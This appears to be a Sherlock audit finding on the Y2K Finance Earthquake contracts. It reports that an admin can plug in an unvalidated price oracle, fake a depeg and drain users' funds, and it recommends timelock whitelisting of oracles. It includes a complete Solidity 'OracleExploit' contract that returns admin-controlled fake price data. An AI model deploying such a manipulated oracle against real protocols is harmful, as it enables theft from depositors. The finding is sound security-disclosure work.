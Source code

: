 zeroknots

high

# Admin can steal funds from users by manipulating price oracle

## Summary
The Y2K protocol is placing extensive trust on external price oracles. Y2k execute business logic such as depegs and vault balancing based on price signals from these oracles.

Y2k allows the admin to supply both the oracle address and the address of the insured ERC-20 contract. However, the contract does not validate these addresses, creating a vulnerability that can be exploited by a malicious admin to alter the outcome of the hedge bet and steal users' funds. This issue represents a severe security vulnerability that exposes users to financial risks, undermines the contract's trustworthiness, and potentially renders the contract unfit for its intended purpose.

A maliciously acting admin, could configure a new market with a manipulated oracle contract address and manipulate the outcome the vault's hedge position and thus rig the outcome of an epoch and drain users funds.

The protocol is designed to allow an Admin-EOA to configure new markets and epochs on those markets.
The engagement scope defines following assumption: **Admin Should not be able to steal user funds**


## Vulnerability Detail
When creating new markets, no validation or checks against trusted price oracles is performed:

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultFactoryV2.sol#L58-L74

A maliciously acting admin, could configure a new market with a **malicious** oracle contract that the admin controls.
The admin can invest himself into a vault and bet against unexpecting Y2K users.
At the end of the epoch, the admin manipulates the oracle contract in such a way, that it signals a severely broken peg.

The admin can then call triggerDepeg() on the controller, and collect a massive premium.
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L51-L62

ControllerPeggedAssetV2.sol Line 62 `int256 price = getLatestPrice(premiumVault.token());` is in complete control of the admin.


## Impact
Loss of user funds 
Reputation Damage

## Code Snippet

Exploit Contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract OracleExploit is AggregatorV3Interface {
    AggregatorV3Interface public realOracle;


    struct OraclePriceFeed {
        bool enabled;
        uint80 roundId;
        int256 answer;
        uint256 startedAt;
        uint256 updatedAt;
        uint80 answeredInRound;
    }

    OraclePriceFeed pwned;

    constructor(address _oracle) {
        realOracle = AggregatorV3Interface(_oracle);
    }

    function setPwned(OraclePriceFeed calldata _data) public {
        pwned = _data;
    }

    function decimals() external view override returns (uint8) {
        return realOracle.decimals();
    }

    function description() external view override returns (string memory) {
        return realOracle.description();
    }

    function version() external view override returns (uint256) {
        return realOracle.version();
    }

    function getRoundData(uint80 _roundId)
        external
        view
        override
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound)
    {
        if (pwned.enabled) {
            return (pwned.roundId, pwned.answer, pwned.startedAt, pwned.updatedAt, pwned.answeredInRound);
        } else {
            return realOracle.getRoundData(_roundId);
        }
    }

    function latestRoundData()
        external
        view
        override
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound)
    {
        if (pwned.enabled) {
            return (pwned.roundId, pwned.answer, pwned.startedAt, pwned.updatedAt, pwned.answeredInRound);
        } else {
            return realOracle.latestRoundData();
        }
    }
}
```

## Tool used

Manual Review

## Recommendation
Since Y2K is placing so much trust on oracles, adequate validation processes such as whitelisting via the TimeLock should be implemented
